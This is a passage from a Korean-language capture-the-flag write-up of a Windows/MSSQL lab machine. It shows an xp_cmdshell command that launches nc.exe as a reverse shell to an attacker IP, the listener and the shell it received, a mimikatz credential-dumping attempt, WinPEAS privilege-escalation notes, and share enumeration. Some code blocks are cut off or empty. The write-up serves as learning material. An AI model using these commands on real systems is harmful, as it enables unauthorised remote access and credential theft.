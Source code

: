 아래는 리버스 쉘을 연결할 때의 명령어다.
``` bash
# 공격 대상 서버
SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell C:\Users\Public\nc.exe 10.10.14.175 443 -e powershell

# 공격자 서버
┌──(root㉿kali)-[~user]
└─# nc -lvp 443
listening on [any] 443 ...
10.129.41.155: inverse host lookup failed: Unknown host
connect to [10.10.14.175] from (UNKNOWN) [10.129.41.155] 49682
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>
```


### Mimikatz
mimikatz를 통해 윈도우 계정 정보 획득을 시도해보았다. 현재 계정 `sql_svc`로 실행하였기에 아래 ERROR 문구와 같이 권한이 없다고 나온다. 역시 권한을 먼저 상승시켜야 할 것 같다.
``` bash
PS C:\Users\Public> .\mimi.exe
.\mimi.exe

  .#####.   mimikatz 2.2.0 (x86) #19041 Sep 19 2022 17:43:26
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # sekurlsa::logonPasswords
ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)

mimikatz # privilege::debug
ERROR kuhl_m_privilege_simple ; RtlAdjustPrivilege (20) c0000061
```

### WinPEAS
이 부분 역시 공략을 참고하였다. 문제 풀이 과정 중 아래 문제의 정답을 도저히 모르기에, 결국 참고하였다. 말 그대로라면 권한 상승이 가능한 부분을 보여준다는 신기한 도구이다.
> What script can be used in order to search possible paths to escalate privileges on Windows hosts?

해당 파일은 [Github](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)에서 다운로드 가능하며, 나의 경우 bat 형태로 받아 이전의 File Transfer 과정을 거쳐 대상 서버에 다운로드하였다.
```
 Volume in d

```


``` bash
SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell net share
output
-------------------------------------------------------------------------------
Share name   Resource                        Remark
-------------------------------------------------------------------------------
IPC$                                         Remote IPC
C$           C:\                             Default share
ADMIN$       C:\Windows                      Remote Admin
backups      C:\backups

SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell dir C:\backups
output
```